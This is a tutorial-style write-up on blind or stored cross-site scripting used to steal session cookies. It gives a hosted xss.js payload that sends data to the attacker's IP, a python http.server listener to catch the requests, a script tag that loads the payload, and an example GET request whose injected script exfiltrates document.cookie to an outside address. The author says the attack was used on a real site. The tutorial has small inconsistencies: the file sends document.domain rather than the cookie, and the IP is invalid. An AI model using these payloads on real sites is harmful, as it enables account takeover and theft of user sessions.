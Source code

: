First, you need to confirm that your payload is successfully injected. Here’s how:

- **Check the source code:** After injecting your payload, view the page source to see if your `<script>` tag appears.
    
- **Use browser developer tools:** Open developer tools (usually F12 or right-click and select "Inspect") and look for your payload in the DOM (Document Object Model).

or just use another browser and see if it executes.

***-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-****-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-*-**-*-*-*-

The attacker steals the Cookie, and through the victim’s cookie, **he enters in the target’s account (the admin or the user).**  
So we need to write a two-part code, the first to enter your server + to display the cookie session through the JavaScript code


1- First, create a file with the .js extension inside the server

```js
alert(document.domain);  
var i=new Image;  
i.src="http://<ip>:<anyport>/?cookie="+document.domain;
```

_**Save the file:** When saving the file, make sure the filename ends with `.js`. For example, you can name it `xss.js`._

2- Open a connection with any tool such as Netcat, so you can monitor the Apache HTTP Server log. I use a model inside Python 3 as follows: -

```bash
python3 -m http.server <port>
```

3- After opening a connection to the server, take the host with a link to the .js file  
And call it with any js2 code, such as:

```html
<script src="http://<ip>/xss.js"></script>
```

**Replace `<ip>` with your own IP address. This ensures that the script file `xss.js` is hosted on your server, and the requests made by the victim's browser are directed to your server, allowing you to capture the cookie information.**


The Request will be delivered to you from the website with a cookie package, as shown in the picture  
(In the real scenario of the attack, I injected the js code 2 **into the request to verify my account** and waited for about two hours. 

### Example Request

Here's how the request might look:

```js
GET /verify?token=<script>var i = new Image(); i.src = "http://123.456.78.90:8000/?cookie=" + document.cookie;</script> HTTP/1.1 Host: example.com
```
